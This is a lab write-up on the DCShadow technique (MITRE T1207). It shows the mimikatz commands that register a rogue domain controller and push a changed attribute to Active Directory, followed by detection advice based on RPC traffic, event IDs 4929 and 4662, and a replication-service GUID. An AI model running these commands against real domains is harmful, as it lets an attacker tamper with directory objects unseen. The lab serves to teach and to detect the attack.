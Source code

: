# T1207: DCShadow -  Becoming a Rogue Domain Controller

DCShadow allows an attacker with enough privileges to create a rogue Domain Controller and push changes to the DC Active Directory objects.

## Execution

For this lab, two shells are required - one running with `SYSTEM` privileges and another one with privileges of a domain member that is in `Domain admins` group:

![](../../.gitbook/assets/dcshadow-privileges.png)

In this lab, I will be trying to update the AD object of a computer `pc-w10$`. A quick way to see some of its associated properties can be achieved with the following powershell:

```csharp
PS c:\> ([adsisearcher]"(&(objectCategory=Computer)(name=pc-w10))").Findall().Properties
```

![](../../.gitbook/assets/dcshadow-computer-properties.png)

Note the `badpwcount` property which we will try to change with DCShadow by setting the value to 9999:

{% code-tabs %}
{% code-tabs-item title="mimikatz@NT/SYSTEM console" %}
```csharp
mimikatz # lsadump::dcshadow /object:pc-w10$ /attribute:badpwdcount /value=9999
```
{% endcode-tabs-item %}
{% endcode-tabs %}

We can now push the change to the primary Domain Controller `DC-MANTVYDAS`:

{% code-tabs %}
{% code-tabs-item title="mimikatz@Domain Admin console" %}
```csharp
lsadump::dcshadow /push
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Below are the screenshots of the above commands and their outputs as well as the end result, indicating the `badpwcount`value getting changed to 9999:

![](../../.gitbook/assets/dcshadow-computer-properties-changed.png)

## Observations

As suggested by Vincent Le Toux who co-presented the [DCShadow](https://www.youtube.com/watch?v=KILnU4FhQbc), in order to detect this type of rogue activity, you could monitor the network traffic and suspect any non-DC hosts \(our case it is the PC-W10$ with `10.0.0.7`\) issuing RCP requests to DCs \(our case DC-MANTVYDAS with `10.0.0.6`\) as seen below:

![](../../.gitbook/assets/dcshadow-traffic.png)

Same for the logs, if you see a non-DC host causing the DC to log a `4929` event \(Detailed Directory Service Replication\), you may want to investigate what else is happening on that system:

![](../../.gitbook/assets/dcshadow-logs.png)

Current implementation of DCShadow in mimikatz creates a new DC and deletes its associated objects when the push is complete in a short time span and this pattern could potentially be used to trigger an alert, since creation of a new DC, related object modifications and their deletion all happening in 1-2 seconds time frame sound anomalous. Events `4662` may be helpful for identifying this:

![](../../.gitbook/assets/dcshadow-createobject.png)

![](../../.gitbook/assets/dcshadow-delete1.png)

![](../../.gitbook/assets/dcshadow-delete2.png)

Per [Luc Delsalle](https://blog.alsid.eu/@lucd?source=post_header_lockup)'s post on DCShadow explanation, one other suggestion for detecting rogue DCs is the idea that the computers that expose an RPC service with a GUID of `E3514235–4B06–11D1-AB04–00C04FC2DCD2`, but do not belong to a `Domain Controllers` Organizational Unit, should be investigated. 

We see that our suspicious computer exposes that exact service:

![](../../.gitbook/assets/dcshadow-services.png)

..but does not belong to a `Domain Controllers` OU:

```csharp
([adsisearcher]"(&(objectCategory=computer)(name=pc-w10))").Findall().Properties.distinguishedname
# or
(Get-ADComputer pc-w10).DistinguishedName
```

![Outputs for computer NOT belonging to DC OU and one belonging, respecitvely](../../.gitbook/assets/dcshadow-ou-dc.png)

## References

Below are the resources related to DCShadow attack. Note that there is also a link to youtube by a security company Alsid, showing how to dynamically detect DCShadow, so please watch it.

{% embed url="https://attack.mitre.org/wiki/Technique/T1207" %}

{% embed url="https://www.dcshadow.com/" %}

{% embed url="https://www.youtube.com/watch?v=KILnU4FhQbc" %}

{% embed url="https://www.youtube.com/watch?v=yWFUKwZaT\_4" caption="Dynamic Detection of DCShadow" %}

{% embed url="https://github.com/AlsidOfficial/UncoverDCShadow" %}

{% embed url="http://www.labofapenetrationtester.com/2018/04/dcshadow.html" %}

{% embed url="https://blog.alsid.eu/dcshadow-explained-4510f52fc19d" %}

